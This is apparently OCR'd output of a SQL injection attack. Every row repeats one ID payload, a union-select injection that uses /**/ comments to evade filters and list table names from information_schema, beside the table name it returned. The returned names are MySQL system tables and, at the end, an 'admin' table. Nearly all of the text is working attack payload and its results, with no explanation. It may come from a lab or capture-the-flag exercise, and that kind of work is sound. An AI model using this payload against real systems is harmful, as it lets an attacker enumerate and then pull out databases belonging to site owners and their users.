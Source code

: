     ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: SESSION_VARIABLES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: STATISTICS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: TABLES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: TABLESPACES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: TABLE_CONSTRAINTS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: TABLE_PRIVILEGES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: TRIGGERS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: USER_PRIVILEGES
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: VIEWS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_BUFFER_PAGE
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_TRX
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_BUFFER_POOL_STATS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_LOCK_WAITS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_CMPMEM
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_CMP
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_LOCKS
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_CMPMEM_RESET
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_CMP_RESET
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: INNODB_BUFFER_PAGE_LRU
    
    ID: 1'/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1
    name: admin
    